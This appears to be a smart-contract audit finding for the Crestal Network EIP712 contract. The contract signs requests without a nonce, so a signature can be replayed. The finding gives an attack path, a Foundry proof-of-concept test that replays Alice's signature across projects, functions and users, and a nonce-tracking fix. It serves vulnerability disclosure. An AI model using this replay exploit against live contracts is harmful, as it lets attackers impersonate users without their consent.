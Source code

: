 Stale Charcoal Walrus

High

# Attacker Can Replay Signatures

### Summary

The EIP712 contract's signature verification system lacks nonce tracking and proper signature binding, allowing signatures to be replayed across different functions and users. This vulnerability enables unauthorized actions using intercepted or reused signatures.

### Root Cause

In https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/EIP712.sol#L19C5-L42C11 The `structHash` is missing the `nonce` parameter, and does not handle incrementing the nonce of the `msg.sender` to avoid replay of the signature

### Internal Pre-conditions

.

### External Pre-conditions

.

### Attack Path

1. Alice signs a message for with her private key
Message includes base64RecParam and serverURL
2. Bob observes the signature in Mempool/transaction
3. Bob retrieves Alice Signature on chain 
4. Bob can Create Any project and Deployment Proposal On behalf of Alice without Alice Consent.

### Impact

- Unauthorized project creation
- Identity impersonation
- Cross-function signature reuse
- No expiration of compromised signatures

### PoC

Create a file in the test called `Replay.t.sol`
paste in the coded POC below;
run `forge test --mt testSignatureReplayAttack -vvv` 

`//SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/BlueprintCore.sol";
import "../src/EIP712.sol";

contract ReplayAttackTest is Test {
    BlueprintCore public blueprint;
    address public alice = address(0x1);
    address public bob = address(0x2);

    function setUp() public {
        console.log("Deploying contracts...");
        blueprint = new BlueprintCore();
        vm.label(alice, "Alice");
        vm.label(bob, "Bob");

        // Give ETH to users
        vm.deal(alice, 100 ether);
        vm.deal(bob, 100 ether);
        console.log("Setup complete - Alice and Bob funded");
    }

    function testSignatureReplayAttack() public {
        console.log("Starting replay attack test...");

        // Generate unique projectIds
        bytes32 projectId1 = bytes32(uint256(1));
        bytes32 projectId2 = bytes32(uint256(2));
        bytes32 projectId3 = bytes32(uint256(3));
        string memory base64RecParam = "test_param";
        string memory serverURL = "https://test.com";

        console.log("Getting proposal digest...");
        bytes32 digest = blueprint.getRequestProposalDigest(projectId1, base64RecParam, serverURL);
        console.log("Digest created:", vm.toString(digest));

        // Alice signs the message
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(1, digest);
        bytes memory signature = abi.encodePacked(r, s, v);
        console.log("Signature created by Alice");

        // First use with projectId1
        console.log("\nAttempting first use of signature...");
        vm.prank(bob);
        bytes32 requestId1 =
            blueprint.createProjectIDAndProposalRequestWithSig(projectId1, base64RecParam, serverURL, signature);
        console.log("First use succeeded - Request ID:", vm.toString(requestId1));

        // Second use with projectId2
        console.log("\nAttempting signature replay with different projectId...");
        vm.prank(bob);
        bytes32 requestId2 =
            blueprint.createProjectIDAndProposalRequestWithSig(projectId2, base64RecParam, serverURL, signature);
        console.log("Replay succeeded - Request ID:", vm.toString(requestId2));

        // Cross-function replay with projectId3
        console.log("\nAttempting cross-function replay...");
        vm.prank(bob);
        bytes32 requestId3 =
            blueprint.createProjectIDAndDeploymentRequestWithSig(projectId3, base64RecParam, serverURL, signature);
        console.log("Cross-function replay succeeded - Request ID:", vm.toString(requestId3));

        // Verify different request IDs
        assertTrue(requestId1 != requestId2, "Request IDs should be different");
        assertTrue(requestId2 != requestId3, "Request IDs should be different");
    }

    function testSignatureReplayAcrossUsers() public {
        console.log("\nTesting signature replay across users...");

        bytes32 projectId = bytes32(uint256(1));
        string memory base64RecParam = "test_param";
        string memory serverURL = "https://test.com";

        bytes32 digest = blueprint.getRequestProposalDigest(projectId, base64RecParam, serverURL);

        // Alice signs
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(1, digest);
        bytes memory signature = abi.encodePacked(r, s, v);
        console.log("Alice created signature");

        // Bob uses Alice's signature
        vm.prank(bob);
        bytes32 requestId =
            blueprint.createProjectIDAndProposalRequestWithSig(projectId, base64RecParam, serverURL, signature);
        console.log("Bob used Alice's signature successfully");
        console.log("Request ID:", vm.toString(requestId));
    }
}
`

### Mitigation

Add nonce tracking:

`contract EIP712 is EIP712Upgradeable {
    mapping(address => uint256) public nonces;
    
    bytes32 public constant PROPOSAL_REQUEST_TYPEHASH =
        keccak256("ProposalRequest(bytes32 projectId,string base64RecParam,string serverURL,uint256 nonce)");
    
    function getRequestProposalDigest(
        bytes32 projectId,
        string memory base64RecParam,
        string memory serverURL
    ) public returns (bytes32) {
        bytes32 structHash = keccak256(
            abi.encode(
                PROPOSAL_REQUEST_TYPEHASH,
                projectId,
                keccak256(bytes(base64RecParam)),
                keccak256(bytes(serverURL)),
                nonces[msg.sender]++
            )
        );
        return _hashTypedDataV4(structHash);
    }
}`